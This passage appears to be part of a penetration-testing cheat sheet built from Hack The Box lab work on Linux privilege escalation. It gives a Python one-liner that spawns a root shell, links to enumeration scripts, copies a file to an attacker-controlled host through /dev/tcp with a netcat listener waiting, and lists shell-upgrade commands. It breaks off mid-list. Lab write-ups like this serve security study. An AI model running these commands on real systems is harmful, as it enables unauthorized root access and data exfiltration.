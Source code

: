 
Running the command from above, It instantly give me shell as the root:

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![](https://i.imgur.com/GgiF1oF.png)

## Automated Tools

  

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

  
**LinEnum** - https://github.com/rebootuser/LinEnum



**Linux Exploit Suggester** - https://github.com/mzet-/linux-exploit-suggester

  

**Linux Priv Checker** - https://github.com/sleventyeleven/linuxprivchecker
  

## File Transfer
### scp

`scp 10.10.14.17@lightweight.htb:/tmp/listen.pcap .`
  
![](https://i.imgur.com/QBsXWN3.png)


### nc

With **netcat** listener running locally on Kali machine, I sent the contents of **backup.7z** file over the network to the listener running on the local machine:

`cat backup.7z > /dev/tcp/10.10.14.17/9001`

![](https://i.imgur.com/BWu6t6d.png)

Now on my local listener, the data receieved by Netcat is redirected to a file named backup.7z:

`nc -lvnp 9001 > backup.7z`

![](https://i.imgur.com/FtwfYyu.png)


## Developing your shell
  
- Script

```bash
script /dev/null -c bash
```

- Python pty module:
  